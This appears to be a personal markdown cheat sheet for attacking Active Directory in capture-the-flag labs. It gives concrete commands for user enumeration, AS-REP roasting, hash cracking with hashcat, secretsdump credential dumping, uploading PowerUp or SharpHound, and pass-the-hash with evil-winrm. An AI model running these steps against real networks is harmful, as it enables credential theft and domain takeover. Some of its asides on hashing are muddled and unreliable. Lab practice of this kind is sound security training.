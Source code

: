 ## How 2 Pwn: Active Directory

This is a guide for a straightforward Active Directory attack scenario, YMMV.

### 0. Enumerate Shares

```
enum4linux [IP]
```
... generally reveals shares, etc., that will be useful later

### 1. Find the Domain Name

You need the Active Directory domain name to attack the host.

You can get the AD domain name by scanning with nmap:

```
sudo nmap -sC -sT -sV 10.10.31.222 -oN ldap 
```

The **-sC** flag is used to deploy standard scripts which use ldap to enumerate port 389, as they will reveal the full domain name

then add the domain name to /etc/hosts 


```
[ip] [host name] [domain]
```
	
where host name looks like "XXX.htb" and domain name often looks like "XXX.local"

### 2. Enumerate Users on the Domain 

Use the domain name to enumerate users:

```
kerbrute enumusers --dc [IP ADDRESS] -d [DOMAIN NAME] userlist.txt
```

note that the domain name is usually a url with a TLD like .com, .org, etc. In the case of AD,
its often configured using a .local TLD as a matter of habit 

### 3. ASREPRoasting Users

Attempt to ASREPRoast user accounts which are misconfigured with "Does not requre Pre-Authentication" using the GetNPUsers.py (NP=no pre-auth) script from Impacket. Specifically we're trying to request kerberos tickets with hashes from the kerberos TGS that we can later crack for passwords. Kerberos will sometimes issue tickets to accounts that do not require pre-auth.

```
python3 /opt/impacket/examples/GetNPUsers.py [DOMAIN NAME]/[USERNAME] -no-pass -usersfile ./npusers
```

where DOMAIN NAME would be something like XXX.local and USERNAME is an enumerated user from step 2

where the ./npusers file is a list of usernames gained from step #2

this will give you a kerberos hash that you can crack for a password

### 4. Crack User Passwords

Crack the hash(s) that you get back from Kerberos TGS using hashcat, generally kb5 type
	... if you're unsure about the type of hash, check on hashcat.net examples page

```
hashcat -a 0 -m 18200 ./svc-admin_hash ./passwordlist.txt --force
```

### 5. Use the Cracked Passwords

After cracking the hash, you now have a user password. Attempt to map out  SAMBA shares using these credentials
	... NOTE: there may have been no shares when you anonymously list with smbclient
		don't let that discourage you. with credentials, new shares are likely visible

```
smbclient -L 10.10.64.123 -U svc-admin 
```

- OR, check for wsman on port 5985 (login with evil-winrm)
- OR, check for rdesktop
- basically just check for anywhere to plug the credentials into
	
it may be a good idea to do a full port scan, ports 1-65535, to find somewhere to log into

### 6. Plug in Credentials

6.a. (IF SMB): then connect to a share using those credentials

```
smbclient //10.10.64.123/backup -U svc-admin
```
and steal any info you can

6.b. (IF WINDOWS): Upload a script like PowerUp.ps1 (see Sauna notes for how to setup SimpleHTTPServer and Invoke-WebRequest to get PowerUp on windows box)

You might get the autologon.exe credentials, which you can use to dump secrets using the command in step #7 (can also pass a one-liner with password)

6.c. (LAST RESORT): As a last resort and/or to pivot throughout AD, you might want to upload a SharpHound.exe and gather some .json files with it, exfiltrate
	back with the evil-winrm download function 

### 7. Dump Secrets

When you can find a user account, use Impacket secretsdump.py to dump all password hashes that the user has access to -- the purpose of this is privilege escalation

```
python3 /opt/impacket/examples/secretsdump.py -dc-ip 10.10.64.123 backup@spookysec.local
```

this yields many hashes

hashes yielded from DRSUAPI (the NTDS.DIT dump) are NTLM hashes of the form
	
**[userhash]:[passhash]**

so the part after the colon is the password hash

NOW, to escalate privileges, remember:

Why are we grabbing password HASHES? (see: hashing vs encryption)

It's because applications only check password hashes. they never know or store
the cleartext password. So, you can PASS THE HASH -- meaning, you can use
these account password hashes without every knowing the real password -- and
the application you're attacking will never know the difference. You can
authenticate using the hash alone

... aside: hash collision attacks allow you to authenticate by 
	guessing a password that creates the same hash using a different 
	password, so you can get in without knowing the real password in that
	case as well

... aside: note that passwords are usually encrypted, then encoded in that order 

### 8. Pass the Hash

Pass the hashes you get from dumping secrets to login with **evil-winrm**

